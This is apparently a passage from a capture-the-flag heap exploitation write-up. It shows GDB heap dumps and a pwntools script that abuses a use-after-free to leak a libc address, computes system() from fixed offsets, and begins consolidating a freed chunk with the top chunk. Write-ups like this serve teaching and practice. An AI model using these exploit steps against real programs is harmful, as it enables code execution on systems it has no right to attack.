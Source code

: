 ```
0x6041a0:	0x4343434343434343	0x4343434343434343
0x6041b0:	0x4343434343434343	0x4343434343434343
0x6041c0:	0x4343434343434343	0x4343434343434343
```

Player 2's name chunk is free'd and populated with main arena's libc pointer since it's in a circular double-linked list.

#### _Libc Leak_


```python
# The 'selected' array contains the 3rd player object
# We are abusing the UAF vuln to leak libc
# show_player just checks if the 'selected' array is empty
# if it's not, it will print the value of the player's object
# without checking if it's actually free'd or not
show()

p.recvuntil('Name: ')

leak        = u64(p.recv(6).ljust(8, '\x00'))
libc        = leak - 0x3c17b8
system      = libc + 0x46590

log.info("Leak:   0x{:x}".format(leak))
log.info("Libc:   0x{:x}".format(libc))
log.info("system: 0x{:x}".format(system))
```

```
[*] Leak:   0x7ffff7dd37b8
[*] Libc:   0x7ffff7a12000
[*] system: 0x7ffff7a58590
```


### _Pwning Time_

Now the question is, how do we get arbitrary code execution? Instead of exploiting the binary's logic this time, we'll exploit both the binary's and heap's logic.

```python
# Consolidate with top chunk
free(3) 
```

```makefile
0x604120:	0x0000000000000000	0x00000000000000b1 <-- player 2 [free]
0x604130:	0x00007ffff7dd37b8	0x00007ffff7dd37b8
0x604140:	0x0000000000604150	0x0000000000000091
0x604150:	0x00007ffff7dd37b8	0x00007ffff7dd37b8
0x604160:	0x4343434343434343	0x4343434343434343
0x604170:	0x4343434343434343	0x4343434343434343
0x604180:	0x4343434343434343	0x4343434343434343
0x604190:	0x4343434343434343	0x4343434343434343
0x6041a0:	0x4343434343434343	0x4343434343434343
0x6041b0:	0x4343434343434343	0x4343434343434343
0x6041c0:	0x4343434343434343	0x4343434343434343
0x6041d0:	0x00000000000000b0	0x0000000000000020 <-- player 3 [free]
0x6041e0:	0x0000000000000000	0x0000000400000003
0x6041f0:	0x0000000000604200	0x0000000000020e11 <-- top chunk
```
